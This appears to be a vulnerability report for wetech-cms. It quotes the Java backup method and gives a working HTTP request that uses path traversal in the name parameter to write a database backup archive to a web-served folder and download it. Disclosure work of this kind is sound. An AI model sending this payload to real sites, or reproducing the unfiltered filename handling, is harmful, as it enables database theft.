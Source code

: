 ```yaml
---
typora-root-url: ./img
---
```


**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

#### wetech-cms-master\wetech-basic-common\src\main\java\tech\wetech\basic\util\BackupFileUtil.java

```java
	public void backup() {
		BufferedReader br = null;
		BufferedWriter bw = null;
		try {
			String cmd = "cmd /c mysqldump -u"+username+" -p"+password+" "+database;
			Process proc = Runtime.getRuntime().exec(cmd);
			br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
			bw = new BufferedWriter(
					new FileWriter(backupDir+File.separator+filename+".sql"));
			System.out.println(backupDir+File.separator+filename);
			String str = null;
			while((str=br.readLine())!=null) {
				bw.write(str);
				bw.newLine();
			}
		} catch (IOException e) {
			e.printStackTrace();
		} finally {
			try {
				if(br!=null) br.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
			try {
				if(bw!=null) bw.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
		}
	}
```

​	该功能再创建压缩包时存在目录穿透漏洞，我向上追溯时发现，对于传入的参数filename并没有进行过滤，所以可以在任意位置创建一个压缩包文件，甚至可以传到upload文件夹下通过URL访问直接下载下来，实现脱库。

​	payload如下：

```http
POST /admin/backup/add.do HTTP/1.1
Host: 172.21.55.165:8888
Content-Length: 38
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.55.165:8888
Referer: http://172.21.55.165:8888/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cto_bundle=hVSq4l9ZUGQ2dzF1TiUyQmYlMkJhTUZKMXA1U3lTZTdnbWhmdlVhT3U1eGNIZXAlMkJyNDA1Qm83NUd5bVM1bXRONGdXMng1NVNYRHdrZXhQNmtWVk9uU0tNVnJYMjglMkJaQWFTdDRGdGRMck1DNkVvWEUyUVh5MWQlMkZvZkZ3YURyd1pnZjhvbWYlMkJMNHpWUmVCczZPc1lEeFNrMnRMYWxqSXclM0QlM0Q; collapase-nav=collapse-nav2; JSESSIONID=382FCF7BF762009C987ED7A0D73AF0C0
Connection: close

name=../../../indexPic/hadagaga123
```

​	我们访问http://localhost:8888/resources/indexPic/hadagaga123.tar.gz

![image-20241127231733666](/image-20241127231733666-1732721891177-8-1732797677430-2-1732800525202-1.png)